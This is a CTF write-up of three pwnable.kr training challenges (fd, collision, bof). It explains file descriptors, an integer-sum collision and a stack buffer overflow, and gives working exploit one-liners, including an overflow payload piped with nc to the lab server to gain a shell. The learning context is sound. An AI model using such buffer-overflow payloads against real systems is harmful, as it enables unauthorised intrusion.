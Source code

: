 Toddler's Bottle
================

Codes: https://gist.github.com/siddharthasahu/f46a965d7ce34a4b24cc

fd
--

A simple one.

* atoi(const char *str): Converts the char stream of digits to int 
* read(int fdes, void *buf, size_t nbyte): Reads `nbytes` bytes into `buf` variable from `fdes` file descriptor. [http://codewiki.wikidot.com/c:system-calls:read]
* Hex to decimal conversions in bash: http://stackoverflow.com/questions/13280131/hexadecimal-to-decimal-in-shell-script

Rest is simply setting the file descriptor to stdin and passing the matching string:  
`echo "LETMEWIN" | ./fd 4660`  
or even better: `echo "LETMEWIN" | ./fd $(printf "%d" 0x1234)`

Pwned!

collision
---------

This one led to a revision of signed vs unsigned integers, data ranges in C and interplay between binary, ASCII and hex.

* New bash commands: `od`, `xxd`, data conversion in `bc`
* Need to take care of byte ordering
* http://stackoverflow.com/questions/9487037/passing-binary-data-as-arguments-in-bash

The trick is to pass in 20 bytes which is picked in the form of 5 ints and added to get the result.

One of the possible answers: `$'\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01'`

bof
---

Finally get to learn buffer overflows!

* Needs gdb debugging skills
* Function call conventions in x86: http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html

Objective is to replace the value of `key`. So basically one needs to calculate the position of the `key` variable in the stack and send an appropriate input so that it replaces `key` with desired data (0xcafebabe in this case).

GDB commands
$ gdb ./bof
(gdb) break func
(gdb) r
(gdb) disassemble

* From `lea    -0x2c(%ebp),%eax` in func+29, we come to know that the position of the `overflowme` variable in the stack, where our input starts getting stored is -0x2c = 44 bytes below the frame pointer (ebp).
* From function calling conventions, stack order is: function arguments -> eip (4 bytes) -> ebp (4 bytes) -> local variables. So position of `key` is 44 + 4 + 4 = 52 bytes from `overflowme` in the stack.
* From above and keeping in mind little endian systems, input can be: "a"*52+$'\xbe'$'\xba'$'\xfe'$'\xca'
* Trying: `echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"$'\xbe'$'\xba'$'\xfe'$'\xca' | nc pwnable.kr 9000`. Does not work.
* I did not solve this, but apparently the above format is closing the shell before commands can be sent.
* Repeat a character in bash: http://stackoverflow.com/questions/5349718/how-can-i-repeat-a-character-in-bash
* Final solution: `(echo $(printf "=%.0s" {1..52};printf "\xbe\xba\xfe\xca");cat) | nc pwnable.kr 9000`

TODO: Investigate why subshell with cat is needed here.

NOTE: If you try to insert a random big input, it gives a "stack smashing detected" error. Interesting to know, but not relevant to this problem, because the hack is in the function itself.
